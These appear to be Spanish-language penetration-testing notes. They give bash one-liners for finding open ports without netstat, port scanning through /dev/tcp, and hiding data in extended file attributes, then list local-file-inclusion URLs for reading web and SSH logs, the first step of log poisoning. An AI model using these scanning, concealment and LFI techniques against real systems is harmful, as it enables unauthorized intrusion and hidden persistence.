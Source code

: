 $texto=textocompleto

$echo ${texto:\&lt;posicioninicial\&gt;:\&lt;cantidaddecaracteres\&gt;}

Para extraer los puertos abiertos del equipo local cuando no funciona isof, netstat, ifconfig, etc..

$cat /proc/net/tcp | awk &#39;{print $2}&#39; | sort -u | cut -d\; -f2

(luego ocupar print 0x\&lt;valor\&gt; para pasar de hexa a decimal)

Para agregar una ip al archivo hosts

echo &quot;ipaddress dominio.thm | sudo tee -a /etc/hosts

Para esconder datos en un sistema operativo, linkeados a un archivo

setfattr -n user.Name -v Jair file

Para escanear puertos abiertos locales y no se tiene nmap o isof o netstat (port scanner)

for i in {1..65535}; do (echo \&gt; /dev/tcp/192.168.1.1/$i) \&gt;/dev/null 2\&gt;&amp;1 &amp;&amp; echo $i is open; done

Para leer datos ocultos

getfattr -d file

_Desde \&lt;_[_https://www.tutorialspoint.com/unix\_commands/getfattr.htm_](https://www.tutorialspoint.com/unix_commands/getfattr.htm)_\&gt;_







# LOG POISONING

jueves, 7 de mayo de 2020

14:41

Cuando se puede leer desde la web el log de apache.

[http://example.com/index.php?page=/var/log/apache/access.log](http://example.com/index.php?page=/var/log/apache/access.log)
[http://example.com/index.php?page=/var/log/apache/error.log](http://example.com/index.php?page=/var/log/apache/error.log)
[http://example.com/index.php?page=/var/log/apache2/access.log](http://example.com/index.php?page=/var/log/apache2/access.log)
[http://example.com/index.php?page=/var/log/apache2/error.log](http://example.com/index.php?page=/var/log/apache2/error.log)
[http://example.com/index.php?page=/var/log/nginx/access.log](http://example.com/index.php?page=/var/log/nginx/access.log)
[http://example.com/index.php?page=/var/log/nginx/error.log](http://example.com/index.php?page=/var/log/nginx/error.log)
[http://example.com/index.php?page=/var/log/vsftpd.log](http://example.com/index.php?page=/var/log/vsftpd.log)
[http://example.com/index.php?page=/var/log/sshd.log](http://example.com/index.php?page=/var/log/sshd.log)
[http://example.com/index.php?page=/var/log/mail](http://example.com/index.php?page=/var/log/mail)
[http://example.com/index.php?page=/var/log/httpd/error\_log](http://example.com/index.php?page=/var/log/httpd/error_log)
[http://example.com/index.php?page=/usr/local/apache/log/error\_log](http://example.com/index.php?page=/usr/local/apache/log/error_log)
[http://example.com/index.php?page=/usr/local/apache2/log/error\_log](http://example.com/index.php?page=/usr/local/apache2/log/error_log)
